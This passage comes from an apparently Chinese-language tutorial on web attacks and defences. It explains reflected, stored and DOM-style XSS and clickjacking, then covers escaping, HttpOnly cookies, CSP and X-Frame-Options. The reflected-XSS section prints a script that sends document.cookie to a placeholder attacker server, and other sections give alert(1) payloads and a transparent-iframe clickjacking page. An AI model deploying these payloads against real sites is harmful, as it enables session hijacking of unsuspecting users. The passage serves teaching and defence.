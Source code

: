 ``` 
</script>

//富文本是html标签，文字，以及样式的集合，很容易实现HTML节点内容注入和DOM属性注入，有被攻击的风险
比如这段代码就会让 浏览器有弹窗
`document.write('<script>alert(1)</'+'script>')`
上面这句话啊假设是用户恶意输入的我们就对其进行转义然后是这样的
document.write('&quot;&gt;&lt;script&gt;alert(&#x27;XSS&#x27;);&lt;&#x2F;script&gt')
```
**2、反射型 XSS :**<br>
反射型XSS也被称为非持久性XSS，是现在最容易出现的一种XSS漏洞。发出请求时，XSS代码出现在URL中，最后输入提交到服务器，服务器解析后在响应内容中出现这段XSS代码，最后浏览器解析执行。也就是说，黑客往往需要引诱用户点击一个非法链接，才能攻击成功。
``` 
例如一个非法连接中可能存在这样一个script：
<script>window.open('http://xx.xx.xx.xx:8080/ck.php?c='+document.cookie)</script>
当执行这个非法链接后，即可将用户的cookie写入到xx.xx.xx.xx的服务器下的cookie.txt文件中。
你的cookie 信息又丢失了
```
**3、存储型 XSS :**<br>
存储型XSS又被称为持久性XSS，它是最危险的一种跨站脚本，相比反射型XSS和DOM型XSS具有更高的隐蔽性，所以危害更大，因为它不需要用户手动触发。 允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。
我们再留言板写入 `<script>alert(1)</script>` 然后数据库保存了 ，我们前端再渲染的时候就会有弹窗。

**XSS攻击防御**<br>
1.0  对特定字符做转义：内容注入替换尖括号（ < => \&lt;   > => \&gt; ） 属性注入替换单引号或双引号（ " => \&quot;  ' => \&#39; ）<br>
2.0  设置httpOnly，浏览器将禁止页面的JS访问带有HttpOnly属性的Cookie。HttpOnly解决的是XSS后的Cookie劫持攻击。<br>
3.0 浏览器自带防御机制，主要应对反射型攻击（HTML内容或属性）：http响应头中自动添加x-xss-protection，值为0（关闭），1（打开），默认打开<br>
4.0 在服务端使用 HTTP的 Content-Security服务端设置 http的Referer-Policy 头部来指定策略，或者在前端设置 meta 标签。<br>
``` 
//我们可以在http响应头中设置Content-Security-Policy
//图片可以从任何地方加载(注意 "*" 通配符)
//多媒体文件仅允许从 media1.com 和 media2.com 加载(不允许从这些站点的子域名)
//可运行脚本仅允许来自于userscripts.example.com
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com

//同时meta中也支持设置Content-Security-Policy
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```


## 4.0 点击劫持
第三方网站通过iframe内嵌某一个网站，并且将iframe设置为透明不可见，将其覆盖在其他经过伪装的DOM上，伪装的可点击DOM（按钮等）与实际内嵌网站的可点击DOM位置相同，
当用户点击伪装的DOM时，实际上点击的是iframe中内嵌的网页的DOM从而触发请求操作。 通过用户点击完成了另一个操作，用户并不知情
``` 
<body style="background: url(clickhijack.png) no-repeat">
    <iframe style="opacity:0" src="http://localhost:80/post/15" width="800" height="600"></iframe>    
</body>
```
**点击劫持防御**<br>
（1）Javascript禁止内嵌：当网页没有被使用iframe内嵌时，top和window是相等的；当网页被内嵌时，top和window是不相等的；可以在本网站的页面中添加如下判断：
``` 
<script>
if (top.location != window.location) {
    //如果不相等，说明使用了iframe，可进行相关的操作
}
</script>
```
假设网页禁用了JS，此时点击劫持还是会有的。<br>
（2）设置http响应头 X-Frame-Options：有三个值 DENY（禁止内嵌） SAMEORIGIN（只允许同域名页面内嵌） ALLOW-FROM（指定可以内嵌的地址）<br>
>能在所有的web服务器端预设好X-Frame-Options字段值是最理想的状态
